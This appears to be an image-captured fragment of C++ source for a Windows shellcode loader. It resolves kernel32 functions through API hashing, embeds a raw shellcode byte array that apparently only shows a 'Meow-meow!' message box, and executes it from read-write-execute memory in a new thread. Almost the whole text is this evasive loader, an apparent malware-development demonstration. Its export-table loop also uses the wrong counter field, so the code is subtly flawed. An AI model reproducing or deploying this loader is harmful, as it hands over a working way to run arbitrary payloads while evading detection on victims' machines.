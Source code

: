 ```cpp
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = (fnVirtualAlloc)myGetProcAddress(hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = (fnCreateThread)myGetProcAddress(hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = (fnWaitForSingleObject)myGetProcAddress(hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```
